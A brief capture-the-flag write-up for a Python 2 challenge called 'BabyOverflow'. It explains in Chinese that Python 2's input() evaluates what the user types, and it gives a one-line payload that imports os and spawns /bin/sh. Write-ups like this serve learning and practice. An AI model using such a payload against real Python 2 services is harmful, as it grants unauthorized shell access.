 ## BabyOverflow

+ Category: **Misc**
+ Difficulty: ☆
+ Tag: **python2**

## Description

Overflow?

## Solution

python2 input vulnerability，使用了 `eval` 作为函数的一部分，因此可以直接类似 pyjail 的方式操作

payload：`__import__("os").system("/bin/sh")`